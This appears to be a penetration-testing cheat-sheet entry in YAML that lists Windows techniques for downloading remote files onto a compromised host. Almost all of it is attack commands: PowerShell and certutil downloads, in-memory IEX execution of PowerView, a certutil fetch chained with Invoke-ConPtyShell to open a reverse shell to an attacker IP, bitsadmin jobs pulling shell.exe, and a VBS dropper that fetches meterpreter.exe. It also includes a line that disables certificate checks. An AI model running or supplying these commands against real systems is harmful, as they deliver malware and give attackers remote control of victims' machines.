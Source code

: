 ```yaml
---
functions:
  file-transfer:
    - description: Techniques allow you to download remote files onto windows systems
      code: |
        
        POWERSHELL


        powershell -c iwr -Uri http://192.168.119.149:8000/task.xml -OutFile task.xml -usebasicparsing

        powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')"

        Download and run IN MEM ONLY:
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149/Invoke-TM.ps1'))
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149:8000/PowerView.ps1'))
		
		Ignore Cert Trusts - [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
		
		(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.149/file.exe', 'here.exe')

        CERTUTIL


        certutil.exe -urlcache -f http://192.168.119.149:8000/task.xml task.xml
        certutil.exe -urlcache -f http://192.168.119.149:8000/Invoke-ConPtyShell.ps1 Invoke-ConPtyShell.ps1; Invoke-ConPtyShell 192.168.119.149 9999


        PS BITSADMIN


        Import-Module BitsTransfer
        Start-BitsTransfer -Source $url -Destination $output
        #OR
        Start-BitsTransfer -Source $url -Destination $output -Asynchronous


        BITSADMIN
        

        Download:
        bitsadmin /create /download myjob
        bitsadmin /addfile myjob http://192.168.119.149/shell.exe c:\xampp\htdocs\shell.exe
        bitsadmin /resume myjob
        bitsadmin /reset
        bitsadmin /complete myjob


        VBS


        see wget.vbs

        Specific File [replace filenames]:
        echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"


        IE

        
        iexplorer.exe http://192.168.119.149:8000/1.bat
        iexplorer.exe http://192.168.119.149/task.xml

resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/wget-windows

---
```

